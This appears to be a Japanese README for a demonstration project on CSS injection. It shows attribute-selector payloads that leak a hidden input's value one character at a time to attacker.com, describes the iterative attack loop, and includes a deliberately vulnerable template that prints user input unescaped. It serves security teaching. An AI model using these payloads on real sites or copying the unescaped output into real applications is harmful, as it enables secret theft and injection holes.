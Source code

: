 例えば`<input>`の`value`属性が16進数で構成されることがわかっている場合，`0,1,...,f`の全てを試すことで，`<input>`の`value`属性の値の1文字目をリークさせることができます．
```css
input[value^="0"] { background: url(http://attacker.com/?secret=0) }
input[value^="1"] { background: url(http://attacker.com/?secret=1) }
...
input[value^="f"] { background: url(http://attacker.com/?secret=f) }
```

上記の攻撃によって1文字目をリークさせることに成功した攻撃者は，さらにリークを進めることができます．
例えば，1文字目が`a`であると判明した場合には，以下のCSSによって2文字目のリークを狙います．
```css
input[value^="a0"] { background: url(http://attacker.com/?secret=a0) }
input[value^="a1"] { background: url(http://attacker.com/?secret=a1) }
...
input[value^="af"] { background: url(http://attacker.com/?secret=af) }
```

あとはこれを続けていくことで，文字列全体をリークさせることができます．

# クラシカルな手法
## 概要
まずは上記の攻撃を再現するクラシカルな手法について実装を行います．  
  
本手法は，`classic`ディレクトリ内で実装を行なっています．
  
攻撃の流れは以下の通りです．

1. 攻撃者はリークした機密情報をフックするためのWebサーバを用意する
1. 攻撃者はターゲットに対して，CSSi脆弱性があるWebアプリーケーションに機密情報の1文字目をリークさせることができるようなCSSを挿入させる．
1. 挿入されたCSSによって攻撃者のWebサーバにリクエストが送信される(ここで機密情報の1文字目が判明する)．
1. 攻撃者は3.で判明した機密情報の1文字目をもとに，ターゲットに対して機密情報の2文字目をリークさせることができるようなCSSを挿入させる．
1. 挿入されたCSSによって攻撃者のWebサーバにリクエストが送信される(ここで機密情報の2文字目が判明する)．
1. 攻撃者は5.で判明した機密情報の2文字目をもとに，ターゲットに対して機密情報の3文字目をリークさせることができるようなCSSを挿入させる．
1. 以下ループ

## 動作デモ
<blockquote class="imgur-embed-pub" lang="en" data-id="a/pALmi6Z" data-context="false" ><a href="//imgur.com/a/pALmi6Z"></a></blockquote><script async src="//s.imgur.com/min/embed.js" charset="utf-8"></script>

## 実装
### 脆弱なWebアプリケーション(/classic/user/*)
Webアプリケーションが返却するテンプレートは以下の通りです．  
ページ上部の`<input>`に機密情報が格納されています．  
また，ページ下部では入力された値がエスケープされずに出力されます．
```html
...
<div>
    secret: <input type="text" name="secret" style="width: 50%;" value="e220929194af9599e46619a7e48f0d7703f620b8">
</div>

<hr>

<form action="/" method="POST">
    <input type="text" name="data" style="width: 50%;">
    <input type="submit" value="post">
</form>

<h1>Escaped</h1>
<div style="border: 1px solid black;">
    {{ data }}
```